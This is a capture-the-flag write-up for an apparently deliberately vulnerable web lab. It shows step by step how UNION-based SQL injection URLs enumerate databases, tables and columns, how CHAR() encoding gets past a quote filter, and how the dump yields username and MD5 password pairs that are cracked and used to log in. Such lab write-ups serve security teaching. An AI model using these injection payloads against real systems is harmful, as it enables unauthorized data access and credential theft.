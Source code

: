 # http://192.168.99.100/index.php?page=signin

to get this flag we're going to
- list all databases on the sql server 
- list tables in a database
- list columns in a table

first, let's go to a page that allows us to do sql injection:

either `http://192.168.99.100/?page=member` or `http://192.168.99.100/index.php?page=searchimg`

normally, in sql, to get a list of all databases you would do:

```sql
show databases;
```

however, because we're doing sql injection, we must use `union` and get the database names via `select`

we can get the database names from `information_schema.schemata`

to see all available columns in schemata we can do `select * from information_schema.schemata`

we are most interested in `schema_name`

#
let's try this url:
_**`http://192.168.99.100/index.php?page=member&id=-1 union select schema_name, 0 from information_schema.schemata&Submit=Submit`**_

after a little parsing, we have all database names:
-   `information_schema`
-   `Member_Brute_Force`
-   `Member_Sql_Injection`
-   `Member_guestbook`
-   `Member_images`
-   `Member_survey`

#

we are interested in the `Member_Brute_Force` database, how do we get a list of tables?

normally, in **sql** it would be something like this:

```sql
    use Member_Brute_Force;
    show tables;
```

but again, since we're using `union` and `select` we have to change that,

we can get the information we need from `information_schema.tables`

to see all available columns you could do `select * from information_schema.tables`

in our case, we're only interested in table names so we could do `select table_name from information_schema.tables`

and to narrow it down to a specific database we could do `select table_name from information_schema.tables where table_schema='Member_Brute_Force'`

however the php page will throw an error if we try to use quotes in our query, so we need a workaround ..


**`CHAR()` and `python` to the rescue ...**
```sh
e1z2r10p4% python -c 'print([ord(c) for c in "Member_Brute_Force"]);'       
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```

so instead of using quotes

`where table_schema='Member_Brute_Force'`

we're going to use 

`where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)`

this is just a way of representing the database name without using quotes

let's try this url: _**`http://192.168.99.100/index.php?page=member&id=-1 union select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit`**_

and now we know the name of the table in that database: `db_default`

let's get a list of column names:
url: _**`http://192.168.99.100/index.php?page=member&id=-1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit`**_

if the database had more than one table you would probably also want to specify the table name like so:

`select column_name from information_schema.columns where table_schema=CHAR(...) and table_name=CHAR(...)`

so now, we know the column names in `Member_Brute_Force.db_default`:
-   *id*
-   *username*
-   *password*

to list all usernames and passwords lets do:
_**`http://192.168.99.100/index.php?page=member&id=-1 union select username, password from Member_Brute_Force.db_default&Submit=Submit`**_


how nice, we don't have to use `CHAR()` here

and this is what we get

username|password
-|-
root|3bf1114a986ba87ed28fc1b5884fc2f8
admin|3bf1114a986ba87ed28fc1b5884fc2f8


both have the same password, haha

a quick google search reveals that the password is an **MD5** hash of the string **_shadow_**


let's see a page diff:

```sh
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=signin&username=dummy&password=dummy&Login=Login' -o before.html
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=signin&username=admin&password=shadow&Login=Login' -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center>				</div>
---
> <center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>
e1z2r10p4% 
```


##### we have the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`
tada!


another approach to getting this flag would be to actually try and (like the database name suggests) brute force this page via consecutive `GET` requests using a wordlist or dictionary, but it seems that the page calls the `sleep()` function when the user provides the wrong password, this makes the brute force approach less appealing
